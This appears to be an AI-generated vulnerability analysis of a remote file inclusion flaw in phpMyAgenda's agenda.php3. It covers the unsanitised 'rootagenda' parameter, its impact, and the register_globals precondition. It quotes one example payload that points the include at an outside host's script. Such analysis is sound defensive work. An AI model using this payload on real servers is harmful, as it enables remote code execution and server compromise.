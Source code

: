 Based on the provided content, here's an analysis of the vulnerability described:

**Root Cause of Vulnerability:**
*   The vulnerability is due to improper verification of the "rootagenda" parameter in the "agenda.php3" file. This parameter is used to include files, without proper sanitization.

**Weaknesses/Vulnerabilities Present:**
*   **Remote File Inclusion (RFI):** The primary weakness is that the application allows an attacker to include and execute arbitrary code by specifying a URL in the "rootagenda" parameter. This can point to malicious files hosted on external servers.

**Impact of Exploitation:**
*   **Arbitrary Code Execution:** Successful exploitation allows an attacker to execute arbitrary code on the server. This can lead to:
    *   Complete system compromise
    *   Data theft
    *   Website defacement
    *   Installation of malware
    *   Denial of service

**Attack Vectors:**
*   **HTTP GET/POST Request:** The attacker sends a crafted HTTP request (likely a POST request as shown in the example) to the vulnerable script "agenda.php3". The request includes the "rootagenda" parameter with a URL pointing to a malicious file.

**Required Attacker Capabilities/Position:**
*   **Remote:** The attacker can be located anywhere on the internet.
*   **No Authentication Required:** The vulnerability does not require prior authentication, making it easily exploitable.
*   **Basic Knowledge of Web Requests:**  The attacker only needs a basic understanding of how to send HTTP requests with parameters.

**Additional Details:**
*   The vulnerability is specifically identified in phpMyAgenda version 3.0 Final and prior.
*   The server must have `register_globals` set to "On" for the exploit to work.
*   The provided example shows a POST data payload: `rootagenda=http://www.yourspace.com/yourscript.php?`
*   The report suggests that the application allows management and publication of events.

The provided information gives more detail than what would be present in a basic CVE description.